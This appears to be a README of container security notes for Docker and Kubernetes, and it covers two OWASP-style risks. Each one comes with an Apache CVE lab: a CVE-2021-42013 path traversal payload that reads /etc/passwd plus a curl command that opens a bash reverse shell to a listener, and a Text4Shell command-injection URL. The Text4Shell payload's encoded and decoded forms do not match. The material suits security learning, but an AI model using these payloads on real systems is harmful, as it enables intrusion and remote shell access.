 # Container-Security (Docker & Kubernetes)
## Docker: OWASP Top 10
<details> 
<summary> 1: Host OS Vulnerabilities </summary>
- If Host OS have vulnerabilities, attacker can use it to gain access to containers and apps running inside them.
- Resolution: Regular patching of host OS, Usage of IDS, Firewall, Implement strict access controls

#### CVE-2021-42013 (Path Traversal + RCE + Reverse Shell Attack)
- An attacker could use a path traversal attack to map URLs to files outside the directories. If files outside of these directories are not protected by the usual default configuration "require all denied", these requests can succeed. If CGI scripts are also enabled for these pathes, this could allow for remote code execution.
- This issue affects Apache 2.4.49 and Apache 2.4.50 and not earlier versions.
- Path Traversal payload - ``` http://172.17.0.2:80/cgi-bin/%%32%65%%32%65/%%32%65%%32%65/%%32%65%%32%65/%%32%65%%32%65/%%32%65%%32%65/%%32%65%%32%65/%%32%65%%32%65/etc/passwd ```
- Actual payload After double URL decode - ``` http://172.17.0.2:80/cgi-bin/../../../../../../../etc/passwd ```
- Netcat listening on ``` $ nc -lvnp 4444  ```
- RCE Payload: ``` $ curl -s --path-as-is -d "echo Content-Type: text/plain; echo; bash -i >& /dev/tcp/172.17.0.1/4444 0>&1" "http://172.17.0.3:80/cgi-bin/%%32%65%%32%65/%%32%65%%32%65/%%32%65%%32%65/%%32%65%%32%65/%%32%65%%32%65/%%32%65%%32%65/%%32%65%%32%65/bin/bash" ```
- References: https://github.com/twseptian/cve-2021-42013-docker-lab
</details>

<details> 
<summary> 2: Insecure Container Images </summary>
- By compromising the insecure container images, attacker can gain access to applications. 
- Resolution: Implementation of Image Scannings (To identify vulnerabilities) and Signature Validations (to ensure Images are Trusted)
- Best practises: Use minimal base images that conbtain only necessary libraries

#### CVE-2022-42889 (Command Injection)
- The vulnerability exists in the StringSubstitutor interpolator object. An interpolator is created by the StringSubstitutor.createInterpolator() method and will allow for string lookups as defined in the StringLookupFactory. This can be used by passing a string “${prefix:name}” where the prefix is the aforementioned lookup. Using the “script”, “dns”, or “url” lookups would allow a crafted string to execute arbitrary scripts when passed to the interpolator object.
- This issue affects Apache Commons Text versions 1.5 through 1.9.
- Cmd Injection URL Payload - ```https://your-target.com/exploit?search=%24%7Burl%3AUTF-8%3Ajava.lang.Runtime.getRuntime%28%29.exec%28%27touch+%2Ttmp%2Fhelloworld%27%29%7d ```
- Actual payload after decode - ```https://your-target.com/exploit?search=${script:javascript:java.lang.Runtime.getRuntime().exec('touch helloworld')}
- After successful execution a file helloworld will be created in app server.
- References: https://github.com/devenes/text4shell-cve-2022-42889
</details>
